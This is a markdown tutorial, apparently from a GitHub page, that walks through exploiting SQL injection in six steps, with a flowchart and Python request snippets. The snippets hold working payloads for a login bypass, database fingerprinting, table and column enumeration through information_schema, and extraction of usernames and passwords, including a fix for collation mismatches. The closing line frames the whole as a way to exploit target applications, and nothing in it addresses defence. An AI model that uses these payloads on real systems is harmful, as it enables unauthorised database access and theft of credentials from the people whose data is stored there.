 ```mermaid
---
config:
  theme: base
  themeVariables:
    nodeTextColor: "#FFFFFF"
    primaryColor: "#000000"
    lineColor: "#FFFFFF"
    edgeLabelBackground: "#000000"
  gitGraph:
    showBranches: false
---
graph TD
    A[Identify Entry Point] --> B[Identify Database]
    B --> C[Identify Tables]
    C --> D[Identify Columns]
    D --> E[Extract Data]
    E --> F[Handle Collation Issues]
classDef default fill:#000000,stroke:#FFFFFF,color:#FFFFFF;

```

### Explanation and Code Snippets

1. **Identify Entry Point**:
    - The first step is to identify the entry point where SQL injection might be possible. This usually involves finding input fields, URL parameters, or headers that interact with the database.

    ```python
    # Example: Capturing potential SQL injection point
    payload = "' OR '1'='1"
    url = f"http://example.com/login?username=admin&password={payload}"
    response = requests.get(url)
    ```

2. **Identify Database**:
    - Determine the type of database being used. This helps in crafting appropriate payloads for further steps.

    ```python
    # Example: SQL query to identify database type
    payload = "' UNION SELECT @@version, NULL--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

3. **Identify Tables**:
    - Discover the database schema by listing all the tables present. This is done using information schema tables.

    ```python
    # Example: Listing tables in the database
    payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

4. **Identify Columns**:
    - Once the tables are identified, list all the columns within the target table.

    ```python
    # Example: Listing columns in a specific table
    target_table = "users"
    payload = f"' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='{target_table}'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

5. **Extract Data**:
    - After identifying the columns, extract data from the target columns.

    ```python
    # Example: Extracting data from the target table
    payload = "' UNION SELECT username, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

6. **Handle Collation Issues**:
    - If you encounter collation issues, you need to identify the collation of the columns and adjust your query accordingly.

    ```python
    # Example: Handling collation issues
    payload = "' UNION SELECT COLLATION_NAME FROM information_schema.columns WHERE table_name='users' AND column_name='username'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    collation = response.text.strip()

    # Adjust payload with collation
    payload = f"' UNION SELECT username COLLATE {collation}, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

By following these steps, you can systematically identify and exploit SQL injection vulnerabilities in a target application.